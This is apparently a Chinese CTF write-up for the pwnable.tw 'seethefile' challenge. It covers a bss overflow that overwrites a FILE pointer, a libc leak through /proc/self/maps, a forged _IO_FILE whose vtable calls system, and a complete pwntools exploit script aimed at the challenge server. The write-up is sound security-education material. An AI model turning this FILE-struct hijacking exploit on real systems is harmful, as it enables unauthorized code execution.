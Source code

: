 ## 检查

```
$ file seethefile 
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped
$ checksec seethefile 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，只开了NX，没去符号表

## 分析

程序提供的功能是可以打开、读取、打印、关闭文件，但是一次只能读取0x18F个字节，且有检测不能读取flag文件

## 漏洞点

程序在输入和读取的地方都做好了边界控制，但是在程序退出时：

```c
case 5:
  printf("Leave your name :");
  __isoc99_scanf("%s", &name);
```

这里没有检查输入name的长度，导致可以覆盖name后面的内存。位于bss段的name后面就是那个文件的fp指针，之后又去调用了fclose并传入了这个fp指针，这里就是漏洞点所在。

## 前置知识之__IO_FILE

在利用之前，我们先来学习`_IO_FILE`。不过在学`IO_FILE`之前，我们先了解两个函数`open`和`fopen`：

- [总结open与fopen的区别](https://www.jianshu.com/p/5bccc0a0bbbf)
- [C fopen vs open](https://stackoverflow.com/questions/1658476/c-fopen-vs-open)
- [Linux（C/C++）下的文件操作open、fopen与freopen](https://blog.csdn.net/qq_38374864/article/details/72903920)
- [C语言中open与fopen的的解释和区别](https://blog.csdn.net/LEON1741/article/details/78091974)
- [C语言中文件描述符和文件指针的本质区别](https://blog.csdn.net/xzhKSD123/article/details/96167556)

|          | 文件描述符（低级IO）  | 文件流/文件指针（高级IO）       |
| :------- | :-------------------- | :------------------------------ |
| 标准     | POSIX                 | ANSI C                          |
| 层次     | 系统调用              | libc                            |
| 数据类型 | int                   | FILE *                          |
| 函数     | open/close/read/write | fopen/fclose/fread/fwrite/fseek |

所以要学习的`_IO_FILE`就是fopen这套libc实现的高级IO操作相关的一个结构体`_IO`是值其所在是libc的IO库中，所以说的FILE结构体值指的就是`_IO_FILE`，在stdio.h的头文件中有typedef：

> /usr/include/stdio.h

```c
struct _IO_FILE;
typedef struct _IO_FILE FILE;
typedef struct _IO_FILE __FILE;
extern struct _IO_FILE *stdin;		/* Standard input stream.  */
extern struct _IO_FILE *stdout;		/* Standard output stream.  */
extern struct _IO_FILE *stderr;		/* Standard error output stream.  */
```

至此我们可以开心的学习`_IO_FILE`了

- [FILE Structure Description](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/)
- [_IO_FILE利用思路总结](https://b0ldfrev.gitbook.io/note/pwn/iofile-li-yong-si-lu-zong-jie)
- [_IO_FILE部分源码分析及利用](http://dittozzz.top/2019/04/24/IO-FILE部分源码分析及利用/)
- [IO FILE 之劫持vtable及FSOP](http://blog.eonew.cn/archives/1103)
- [IO file结构在pwn中的妙用](https://xz.aliyun.com/t/6567)

一句话概括为啥要研究`_IO_FILE`：**libc实现的文件流机制中存在可以被改写的函数指针**

## 利用

所以我们的核心思路是构造fake FILE，从而使得fclose执行`system('/bin/sh')`

### libc

libc的泄漏很简单，我们可以直接利用linux的proc伪文件系统读取`/proc/self/maps`即可获得libc基址，不过本地和远程的布局可能有些许的不同，因为一次最多只能读取0x18f个字节，所以我们获取到一个地址后，加上偏移即可得到libc基址

一般我们读取的是/proc/[pid]/maps，可以获取任意进程的映射信息，这里我们使用self是为了获取当前进程的内存映射关系

### fake FILE

几个IO_FILE的知识：

```
1、_IO_FILE结构大小为0x94（32位）
2、_flags&0x2000为0就会直接调用_IO_FINSH(fp),_IO_FINSH(fp)相当于调用fp->vtable->_finish(fp)
3、将fp指向一块内存p,p偏移0的前4个字节设置为0xffffdfff,p偏移4的位置放上参数';/bin/sh'(字符要以;开头)；p偏移sizeof(_IO_FILE)大小位置(vtable)覆盖为内存q,q的2*4字节处(vtable->_finish)覆盖为system即可
4、vtable是个虚标指针，里面一般性是21or23个变量，我们需要改的是第三个，别的填充些正常的地址就好
```

需要注意的是，我们这里的libc版本是2.23，2.24以上的版本会对虚表进行检查，需要绕过

故伪造如下：

```python
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3
```

## exp

需要注意的是，我们在本地leak出来的libc基址和目标文件的基址并不一样，要一样可能需要使用docker调试

有意思的是，我们获取shell之后并不能直接cat flag直接获取，应该是为了防止非预期，需要./get_flag获取flag

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

context(arch='amd64',os='linux',log_level='debug')

debug = 0
if debug:
	elf = ELF("./seethefile")
	libc = ELF("./libc_32.so.6")
	io = process(elf.path)
else:
	elf = ELF("./seethefile")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10200)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

openfile = lambda name : (sla("choice :","1"),sla("see :", name))
readfile = lambda : sla("choice :","2")
writefile = lambda : sla("choice :","3")
printname = lambda name : (sla("choice :","5"),sla("name :", name))

# leak libc
openfile("/proc/self/maps")
readfile()
writefile()
io.recvuntil("[heap]\n")
libc_addr = int(io.recv(8),16)+0x1000
system_addr = libc_addr +libc.symbols['system']

# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3

# get shell
printname(payload)

io.interactive()

```

参考：

- [和媳妇一起学Pwn 之 seethefile](https://xuanxuanblingbling.github.io/ctf/pwn/2020/04/03/file/)
- [pwnable.tw系列](https://n0va-scy.github.io/2019/07/03/pwnable.tw/)
- [pwnable.tw seethefile 经验总结](https://blog.csdn.net/qq_43189757/article/details/103056493)

